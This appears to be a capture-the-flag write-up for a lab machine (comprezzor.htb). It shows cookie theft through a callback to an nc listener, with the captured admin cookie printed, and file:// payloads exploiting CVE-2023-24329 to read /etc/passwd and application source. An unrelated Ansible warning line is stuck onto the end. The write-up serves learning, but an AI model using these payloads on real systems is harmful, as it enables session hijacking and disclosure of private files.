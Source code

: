 # Bypassing authentication
Using the cookie I was able to log into the dashboard.comprezzor.htb subdomain
![[Pasted image 20240428112829.png]]

# Another Cookie ?
Trying to call back to my server showed that I could get another cookie
![[Pasted image 20240428125208.png]]

### Attack Host
```shell
└─$ nc -lvnp 8000  
listening on [any] 8000 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.15] 58218
GET / HTTP/1.1
Accept-Encoding: identity
Host: 10.10.14.12:8000
User-Agent: Python-urllib/3.11
Cookie: user_data=eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5
Connection: close

```

Using the new cookie allows me to access the admin portal
![[Pasted image 20240428125331.png]]



#  CVE-2023–24329
So in the admin create report you can trigger a LFI because of the space character
![[Pasted image 20240428174955.png]]
This is due to the python version being used. This allowed us to read the /etc/passwd file
![[Pasted image 20240428175025.png]]

## Source code
I was able to find the source code directory by using the following commands
```shell
file:///proc/self/cmdline

```
This told me the directory in which the code was stored. I retrieved it
```shell
                   file:///app/code/app.py
```
![[Pasted image 20240428175932.png]]```


[WARNING]: - file.tar was NOT installed successfully: Unknown error when attempting to call Galaxy at 'https://galaxy.ansible.com/api/':